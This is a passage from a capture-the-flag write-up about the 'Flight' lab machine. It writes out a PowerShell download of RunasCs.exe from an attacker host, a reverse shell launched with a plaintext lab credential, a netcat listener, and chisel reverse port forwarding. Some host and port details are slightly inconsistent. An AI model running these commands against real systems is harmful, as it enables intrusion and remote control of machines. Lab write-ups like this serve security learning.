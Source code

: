 I’ll download the latest release, host it with a Python web server, and upload it to Flight:

```powershell
C:\ProgramData>powershell -c wget 10.10.14.6/RunasCs.exe -outfile r.exe
```

Now I’ll invoke a cmd.exe as C.Bun using -r to redirect STDIN/STDOUT to my host:

```powershell
C:\ProgramData>.\r.exe C.Bum Tikkycoll_431012284 -r 10.10.14.6:443 cmd
[*] Warning: Using function CreateProcessWithLogonW is not compatible with logon type 8. Reverting to logon type Interactive (2)...
[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-5ea78$\Default
[+] Async process 'cmd' with pid 4508 created and left in background.
```

With nc listening on my box, there’s a connection:

```sh
oxdf@hacky$ rlwrap -cAr nc -lnvp 443
Listening on 0.0.0.0 444
Connection received on 10.10.11.187 49906
Microsoft Windows [Version 10.0.17763.2989]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
flight\c.bum
```

## Enumeration

![[/assets/images/flight21.png]]

### Port Forwarding within the target 

Port forwarding port 8000 using `chisel`

```sh
chisel server --reverse -p 8001
```

And running the client on the target machine

```sh
.\chisel.exe client 10.10.14.28:8001 R:8000:127.0.0.1:8000
```

`C:\inetpub\Development`

![](https://miro.medium.com/v2/resize:fit:517/1*Qgvz35MvCKO22KGcdV8H1Q.png)

Running `icacls` on the development folder shows that `c.bum` has write access

![](https://miro.medium.com/v2/resize:fit:627/1*Nem0nr5eM8rfnPDXssc9Ig.png)

I tried executing nc.exe to get a reverse shell but it wasn’t working for some reason so instead I generated a msfvenom payload
